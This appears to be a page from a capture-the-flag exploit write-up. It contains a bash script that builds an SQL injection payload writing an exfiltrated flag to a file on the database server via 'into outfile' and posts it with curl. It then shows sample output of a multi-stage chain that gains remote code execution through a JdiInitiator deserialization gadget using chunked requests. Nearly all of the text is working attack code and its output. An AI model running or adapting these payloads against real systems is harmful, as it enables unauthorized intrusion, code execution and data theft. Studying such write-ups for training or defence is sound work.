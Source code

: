 ```bash

echo "Using exfiltrated flag: $EXTRACTED_FLAG"

# Escape characters within the flag content that would break the SQL query's string literal
ESCAPED_FLAG_CONTENT=$(echo "$EXTRACTED_FLAG" | sed -e "s/'/''/g")

# Construct the raw payload for the 'fields' parameter using the new, simpler format.
# Note that we do NOT use SELECT here.
WRITE_PAYLOAD_RAW=$(printf "sql('\"%s\" into outfile \"%s\" -- ')" "$ESCAPED_FLAG_CONTENT" "$REMOTE_OUTPUT_FILE")

echo "Constructed Raw Payload for Stage 2: $WRITE_PAYLOAD_RAW"

# URL-encode the entire payload
WRITE_PAYLOAD_ENCODED=$(urlencode "$WRITE_PAYLOAD_RAW")

# Construct the final data body for the POST request
DATA="sessionId=${WRITE_SESSION_ID}&fields=${WRITE_PAYLOAD_ENCODED}"

echo "Sending POST request to $WRITE_URL..."

# Perform the curl request with verbosity to see the outcome
curl -v -X POST \
    -H "Content-Type: application/x-www-form-urlencoded" \
    --data-binary "$DATA" \
    "$WRITE_URL"

echo ""
echo "----------------------------------------------------"
echo "Exploit complete. If Stage 2 was successful, the content of the flag has been written to '$REMOTE_OUTPUT_FILE' on the database server."
```



Once run, you should get an output like this:

```
--- Stage 1: Authenticating to get a new session ID ---
Successfully retrieved session ID: c7876d0db3cdeb7f43c3c49d42e21949

--- Stage 2: Processing the payload template ---
Generated payload script and saved it to 'payload.sh'.

--- Stage 3: Encoding payload and triggering RCE via JdiInitiator gadget (10 chunks) ---
Total length: 6800, chunk size: 680

>>> Preparing request 1/10 (bytes 0..679) (Status 500 is OK)
Status:500

>>> Preparing request 2/10 (bytes 680..1359) (Status 500 is OK)
Status:500

>>> Preparing request 3/10 (bytes 1360..2039) (Status 500 is OK)
Status:500

>>> Preparing request 4/10 (bytes 2040..2719) (Status 500 is OK)
Status:500

>>> Preparing request 5/10 (bytes 2720..3399) (Status 500 is OK)
Status:500

>>> Preparing request 6/10 (bytes 3400..4079) (Status 500 is OK)
Status:500

```